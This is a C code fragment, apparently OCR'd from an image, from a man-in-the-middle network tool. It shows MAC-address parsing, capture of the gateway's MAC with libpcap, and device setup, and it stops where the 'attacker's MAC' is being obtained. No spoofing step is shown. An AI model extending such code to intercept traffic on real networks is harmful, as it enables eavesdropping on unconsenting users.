 ```c

/* htoi */
int htoi(char h) {
  if ('0' <= h && h <= '9')
    return h - '0';
  else
    return h - 'a' + 10;
}

/* get mac address */
void get_mac(u_char *mac, char *str) {
  mac[0] = htoi(str[0]) * 16 + htoi(str[1]);
  mac[1] = htoi(str[3]) * 16 + htoi(str[4]);
  mac[2] = htoi(str[6]) * 16 + htoi(str[7]);
  mac[3] = htoi(str[9]) * 16 + htoi(str[10]);
  mac[4] = htoi(str[12]) * 16 + htoi(str[13]);
  mac[5] = htoi(str[15]) * 16 + htoi(str[16]);
}

/* get gatway's mac */
void getgateway(u_char *user, const struct pcap_pkthdr *hp, const u_char *packet) {
  ethernet_header *pEther = (ethernet_header *)packet;
  printf("The gateway's MAC address is : ");
  print_mac(pEther->SRC_mac);
  memcpy(GATEWAY_MAC ,pEther->SRC_mac, 6);
  printf("\n");
}

void Getinfo(MITM_info *arg) {

  /* definations */
  char *dev;
  char errbuf[PCAP_ERRBUF_SIZE];
  u_int mask;
  u_int net_addr;
  char *net;
  char *real_mask;
  struct in_addr addr_net;
  pcap_t *handle;

  /* start dev */
  dev = pcap_lookupdev(errbuf);
  if (dev == NULL) {
    printf("%s\n", errbuf);
    exit(1);
  }

  /* open device */
  if (pcap_lookupnet(dev, &net_addr, &mask, errbuf) == -1) {
    printf("%s\n", errbuf); //打印错误信息
    exit(1); //结束程序
  }
  addr_net.s_addr = net_addr;
  net = inet_ntoa(addr_net);
  handle = pcap_open_live(dev, 65536, 1, 1000, errbuf);
  if (!handle) {
    printf("%s\n", errbuf);
    printf("If the Problem is \"you don't have permission\", please run this program as root!\n");
    exit(1);
  }

  /* get attacker's mac */
  int sockfd;
```